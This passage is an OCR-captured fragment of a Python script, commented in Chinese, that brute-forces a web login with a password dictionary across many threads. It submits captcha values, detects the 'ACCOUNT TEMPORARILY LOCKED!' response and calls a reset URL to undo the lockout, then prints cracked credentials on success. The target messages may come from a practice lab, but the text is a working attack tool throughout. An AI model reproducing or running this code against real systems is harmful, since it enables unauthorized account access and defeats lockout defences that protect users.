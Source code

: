```python

            res = r.text

            # 账号被锁定
            if "ACCOUNT TEMPORARILY LOCKED!" in res:
                with pr_lock:
                    print(f"[{n:4d}] 🚫 {pw:<12} | 🔤 {cap} | 原因: 账号被锁定 → reset")
                try:
                    s.get(rst_url, timeout=5)
                except requests.RequestException:
                    pass
                if retry < MAX_RETRY:
                    pw_q.put((pw, retry + 1))
                continue

            # 破解成功
            if "Invalid security code!" not in res and "Incorrect password!" not in res:
                found.put((user, pw, cap, n))
                with pr_lock:
                    print(f"\n[+] 🎉 破解成功！🎉\n    用户名: {user}\n    密码: {pw}\n    验证码: {cap}\n    尝试: {n}")
                return

            # 失败原因输出
            reason = "未知原因"
            if "Invalid security code!" in res:
                reason = "验证码错误"
            elif "Incorrect password!" in res:
                reason = "密码错误"

            with pr_lock:
                print(f"[{n:4d}] ❌ {pw:<12} | 🔤 {cap} | 原因: {reason}")

        except queue.Empty:
            break
        except requests.RequestException:
            if retry < MAX_RETRY:
                pw_q.put((pw, retry + 1))
        except Exception as e:
            with pr_lock:
                print(f"[!] 线程异常: {e}")


if __name__ == "__main__":
    try:
        with open(dict_file, encoding="utf-8") as f:
            for p in [x.strip() for x in f if x.strip()]:
                pw_q.put((p, 0))   # (密码, 重试次数)
    except:
        print(f"[-] 字典未找到: {dict_file}")
        exit(1)

    print(f"[*] 开始爆破 | 用户: {user} | 字典: {dict_file} | 总数: {pw_q.qsize()} | 线程: {max_workers}\n")

    with ThreadPoolExecutor(max_workers=max_workers) as ex:
        list(ex.map(lambda _: worker(), range(max_workers)))

    if found.empty():
        print(f"\n[-] ❌ 爆破失败")
```
